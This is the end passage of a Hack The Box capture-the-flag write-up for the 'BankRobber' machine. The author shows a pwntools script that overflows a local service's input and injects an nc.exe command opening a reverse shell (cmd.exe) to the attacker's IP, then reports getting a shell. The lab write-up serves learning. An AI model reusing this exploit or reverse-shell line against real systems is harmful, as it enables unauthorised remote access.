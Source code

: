 ![]({{ site.baseurl }}/images/BankRobber-Writeup/19.png)

I did put nc.exe in our users home dir since it refused to run over smb and wrote this little script to exploit it:

```python
from pwn import *
buf =  b""
buf += b'A'*32
buf += b'C:\\users\\cortin\\nc.exe 10.10.14.118 9000 -e cmd.exe '
sock=remote('127.0.0.1',910)
res = sock.recv(1024)
sock.sendline(b'0021') #login
res = sock.recv(1024)
sock.sendline(buf)
sock.interactive()
```
and after runnig it :

![]({{ site.baseurl }}/images/BankRobber-Writeup/18a.png)

Bingo! we got our shell

![]({{ site.baseurl }}/images/BankRobber-Writeup/18b.png)

Thanks for reading,I hope you enjoyed my first write-up .

![](https://www.hackthebox.eu/badge/image/22395)
